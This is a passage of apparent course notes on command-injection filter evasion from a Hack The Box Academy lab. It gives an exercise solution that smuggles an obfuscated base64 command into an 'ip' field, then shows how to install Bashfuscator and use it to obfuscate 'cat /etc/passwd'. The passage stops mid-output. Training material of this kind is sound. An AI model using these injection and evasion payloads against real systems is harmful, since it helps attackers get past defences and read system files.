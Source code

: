 In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

### Academy Exercise
Find the output of the following command using one of the techniques you learned in this section: `find /usr/share/ | grep root | grep mysql | tail -n 1`.

Solution:
`ip=127.0.0.1%0a${LS_COLORS:10:1}bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`
Output will be: `/usr/share/mysql/debian_create_root_user.sql`

## Evasion Tools

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for Linux and another for Windows.

### Linux (Bashfuscator)

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:
```
D3vil0per@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
D3vil0per@htb[/htb]$ cd Bashfuscator
D3vil0per@htb[/htb]$ python3 setup.py install --user
```
Once we have the tool set up, we can start using it from the `./bashfuscator/bin/` directory. There are many flags we can use with the tool to fine-tune our final obfuscated command, as we can see in the `-h` help menu:
```
D3vil0per@htb[/htb]$ cd ./bashfuscator/bin/
D3vil0per@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```
We can start by simply providing the command we want to obfuscate with the `-c` flag:
```
D3vil0per@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```
However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:
```
D3vil0per@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
```
